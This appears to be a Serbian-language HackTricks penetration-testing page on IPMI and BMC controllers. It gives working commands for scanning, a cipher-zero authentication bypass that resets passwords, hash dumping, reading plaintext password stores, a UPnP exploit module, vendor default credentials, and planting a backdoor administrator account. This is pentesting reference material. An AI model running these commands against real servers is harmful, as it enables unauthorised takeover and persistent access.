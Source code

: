 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

### **Pregled IPMI-ja**

[**Inteligentni interfejs za upravljanje platformom (IPMI)**](https://www.thomas-krenn.com/en/wiki/IPMI\_Basics) nudi standardizovan pristup za daljinsko upravljanje i nadgledanje računarskih sistema, nezavisno od operativnog sistema ili stanja napajanja. Ova tehnologija omogućava sistem administratorima da upravljaju sistemima daljinski, čak i kada su isključeni ili neodzivni, i posebno je korisna za:

* Konfiguracije pre pokretanja operativnog sistema
* Upravljanje isključivanjem
* Obnova nakon neuspeha sistema

IPMI je sposoban da nadgleda temperature, napon, brzinu ventilatora i napajanja, kao i da pruža informacije o inventaru, pregleda logove hardvera i šalje upozorenja putem SNMP-a. Za njegov rad su neophodni izvor napajanja i LAN veza.

Od svog predstavljanja od strane Intela 1998. godine, IPMI je podržan od strane brojnih prodavaca, poboljšavajući mogućnosti daljinskog upravljanja, posebno sa podrškom verzije 2.0 za serijski preko LAN-a. Ključni komponenti uključuju:

* **Baseboard Management Controller (BMC):** Glavni mikrokontroler za IPMI operacije.
* **Komunikacione magistrale i interfejsi:** Za internu i eksternu komunikaciju, uključujući ICMB, IPMB i različite interfejse za lokalne i mrežne veze.
* **IPMI memorija:** Za skladištenje logova i podataka.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Podrazumevani port**: 623/UDP/TCP (Obično se koristi UDP, ali može se koristiti i TCP)

## Enumeracija

### Otkrivanje

```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```

Možete **identifikovati** verziju koristeći:

```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```

### IPMI Ranjivosti

U domenu IPMI 2.0, otkrivena je značajna sigurnosna propustljivost od strane Dana Farmera, koja otkriva ranjivost putem **šifarskog tipa 0**. Ova ranjivost, detaljno dokumentovana na [Dan Farmerovom istraživanju](http://fish2.com/ipmi/cipherzero.html), omogućava neovlašćeni pristup sa bilo kojom lozinkom, pod uslovom da je ciljani korisnik validan. Ova slabost je pronađena na različitim BMC-ovima od proizvođača kao što su HP, Dell i Supermicro, što ukazuje na široko rasprostranjenu problematiku unutar svih implementacija IPMI 2.0.

### **IPMI Bypass autentifikacije putem šifre 0**

Da biste otkrili ovu manu, možete koristiti sledeći Metasploit pomoćni skener:

```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

Eksploatacija ove greške je moguća pomoću `ipmitool`-a, kao što je prikazano u nastavku, omogućavajući listanje i izmenu korisničkih lozinki:

```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```

### **IPMI 2.0 RAKP Autentifikacija - Preuzimanje udaljenog heša lozinke**

Ova ranjivost omogućava preuzimanje soljenih heširanih lozinki (MD5 i SHA1) za bilo koji postojeći korisnički nalog. Da biste testirali ovu ranjivost, Metasploit nudi modul:

```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

### **IPMI Anonimna Autentifikacija**

Podrazumevana konfiguracija u mnogim BMC-ovima omogućava "anonimni" pristup, koji se karakteriše praznim korisničkim imenom i lozinkom. Ova konfiguracija može biti iskorišćena za resetovanje lozinki korisničkih naloga koji imaju imena koristeći `ipmitool`:

```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```

### **Supermicro IPMI lozinke u čistom tekstu**

Kritičan dizajnerski izbor u IPMI 2.0 zahteva skladištenje lozinki u čistom tekstu unutar BMC-a u svrhu autentifikacije. Supermicro-ovo skladištenje ovih lozinki na lokacijama poput `/nv/PSBlock` ili `/nv/PSStore` izaziva značajne sigurnosne probleme:

```bash
cat /nv/PSBlock
```

### **Supermicro IPMI UPnP Vulnerabilnost**

Uključivanje Supermicro UPnP SSDP slušača u IPMI firmware, posebno na UDP portu 1900, predstavlja ozbiljan sigurnosni rizik. Ranjivosti u Intel SDK za UPnP uređaje verzije 1.3.1, kako je detaljno opisano u [Rapid7-ovom otkrivanju](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), omogućavaju pristup root nalogu BMC-a:

```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```

### Brute Force

**HP nasumično generiše podrazumevanu lozinku** za svoj proizvod **Integrated Lights Out (iLO)** tokom proizvodnje. Ova praksa se razlikuje od drugih proizvođača koji obično koriste **statične podrazumevane akreditive**. Pregled podrazumevanih korisničkih imena i lozinki za različite proizvode je sledeći:

* **HP Integrated Lights Out (iLO)** koristi **fabrički generisanu nisku od 8 karaktera** kao podrazumevanu lozinku, što pokazuje veći nivo bezbednosti.
* Proizvodi poput **Dell-ovog iDRAC-a, IBM-ovog IMM-a** i **Fujitsu-ovog Integrated Remote Management Controller-a** koriste lako pogodne lozinke poput "calvin", "PASSW0RD" (sa nulom) i "admin" redom.
* Slično tome, **Supermicro IPMI (2.0), Oracle/Sun ILOM** i **ASUS iKVM BMC** takođe koriste jednostavne podrazumevane akreditive, pri čemu su njihove lozinke "ADMIN", "changeme" i "admin" redom.

## Pristupanje Hostu putem BMC-a

Administrativni pristup Baseboard Management Controller-u (BMC) otvara različite puteve za pristup operativnom sistemu hosta. Jednostavan pristup uključuje iskorišćavanje funkcionalnosti BMC tastature, video zapisa i miša (KVM). To se može postići ili ponovnim pokretanjem hosta do root ljuske putem GRUB-a (korišćenjem `init=/bin/sh`) ili pokretanjem sa virtuelnog CD-ROM-a postavljenog kao spasilački disk. Ove metode omogućavaju direktno manipulisanje diskom hosta, uključujući umetanje zadnjih vrata, izvlačenje podataka ili bilo koje neophodne radnje za procenu bezbednosti. Međutim, to zahteva ponovno pokretanje hosta, što je značajan nedostatak. Bez ponovnog pokretanja, pristupanje pokrenutom hostu je složenije i razlikuje se u zavisnosti od konfiguracije hosta. Ako je fizička ili serijska konzola hosta ostala prijavljena, lako je preuzeti kontrolu putem BMC-ovih KVM ili serijsko-preko-LAN (sol) funkcionalnosti putem `ipmitool`-a. Istraživanje iskorišćavanja deljenih hardverskih resursa, poput i2c magistrale i Super I/O čipa, je oblast koja zahteva dalje istraživanje.

## Uvođenje zadnjih vrata u BMC sa hosta

Nakon kompromitovanja hosta opremljenog BMC-om, **lokalno BMC sučelje može se iskoristiti za umetanje korisničkog naloga zadnjih vrata**, stvarajući trajno prisustvo na serveru. Ovaj napad zahteva prisustvo **`ipmitool`-a** na kompromitovanom hostu i aktivaciju podrške za BMC drajvere. Sledeće komande ilustruju kako se novi korisnički nalog može ubaciti u BMC koristeći lokalno sučelje hosta, što zaobilazi potrebu za autentifikacijom. Ova tehnika se može primeniti na širok spektar operativnih sistema, uključujući Linux, Windows, BSD i čak DOS.

```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```

## Shodan

* `port:623`

## Reference

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
